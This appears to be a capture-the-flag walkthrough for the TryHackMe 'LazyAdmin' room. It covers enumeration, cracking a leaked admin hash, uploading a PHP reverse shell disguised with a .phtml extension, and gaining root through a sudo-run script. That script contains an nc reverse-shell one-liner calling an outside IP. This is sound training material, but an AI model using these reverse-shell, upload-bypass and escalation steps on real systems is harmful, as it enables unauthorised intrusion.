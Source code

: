 # LazyAdmin

[LazyAdmin](https://tryhackme.com/room/lazyadmin)

## Solution

- nmap scan: 22, 80

- dirb scan: content, content/as, content/inc

In content/inc we find an interesting directory `content/inc/mysql_backup/`
that contains a sql dump. We can look after 'INSERT' statements and try to find
some useful information. For example we find
`"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\"`,
which looks like a username and a password. We can try to indentify the hash
with hashid. Then we can use hashcat to crack the password. `hashcat -m 0
'42f749ade7f9e195bf475f37a44cafcb' </path/to/rockyou.txt>`

With the new found username and password we can login into `content/as` and
access the dashboard.

We can create a post and upload php code to the attachment, hopefully it will
get executed. To bypass any filters use the `phtml` extension (usually works).
In the payload add a reverse shell script using php. Then create a post and add
the script as an attachment. Next you can visit `/content/attachment` and click
on the script to execute it. You will also need an nc listener to connect.

Inside the home of the itguy we can find the flag and the password for the
mysql database `rice:randompass`. That was a rabbit hole I guess. I looked into
the users table but root did not have a password there.

The next thing to try is `sudo -l` and it looks like we can run perl without
needing a password. `(ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl`

```
cat /home/itguy/backup.pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```

```
cat /etc/copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
```

If we run the command as sudo, this will attempt to open a shell on that host
and port. So we can just modify the ip address to our ip address and run the
script, while on the host we use nc to listen on port 5554. Now we should be
logged in as root.

On host `nc -lvnp 5554` and on target `sudo /usr/bin/perl
/home/itguy/backup.pl`. Then we can `cd root` and `cat root.txt`.
